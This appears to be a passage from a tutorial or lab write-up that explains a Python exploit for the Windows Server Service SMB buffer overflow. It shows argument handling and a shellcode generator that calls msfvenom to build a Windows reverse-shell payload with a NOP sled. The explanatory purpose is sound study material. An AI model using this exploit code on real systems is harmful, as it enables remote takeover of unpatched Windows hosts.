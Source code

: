 The script start off by collecting arguments and creating a new instance of the `SRVSVC_Exploit` class with these arguments:

```python
if __name__ == '__main__':
   # ...

   target, os, port, lhost, lport = sys.argv[1:]
   current = SRVSVC_Exploit(target, os, port, lhost, lport)
   current.run()
```

**NOTE:** `SRVSVC` here refers to `Windows Server Service`, a Windows service responsible for file and printer sharing running on _top_ of SMB. The vulnerability that we are working with here is a buffer overflow vulnerability in the Windows Server Service. If we send a carefully crafted packet of a specific size with specific characters, we can abuse a piece of code

Let's check out the `__init__` method on `SRVSVC_Exploit`:

```python
def __init__(self, target, os, port=445, lhost='0.0.0.0', lport=4444):
   super(SRVSVC_Exploit, self).__init__()

   self.port = port
   self.target = target
   self.os = os
   self.lhost = lhost
   self.lport = int(lport)

   # ...

   self.gen_shellcode()
```

#### Generating shellcode

Alright, so this calls `gen_shellcode`, so that's up next:

```python
def gen_shellcode(self):
    print("[+] Generating shellcode ...")
    res = runcmd(
        [
            "msfvenom",
            "-p",
            "windows/shell_reverse_tcp",
            "LHOST=%s" % self.lhost,
            "LPORT=%d" % self.lport,
            "EXITFUNC=thread",
            "-b",
            "\\x00\\x0a\\x0d\\x5c\\x5f\\x2f\\x2e\\x40",
            "-f",
            "raw",
            "-a",
            "x86",
            "--platform",
            "windows",
        ],
        stdout=PIPE,
        stderr=DEVNULL,
    )
    self.shellcode = "\x90" * (410 - len(res.stdout)) + res.stdout.decode("latin-1")
```
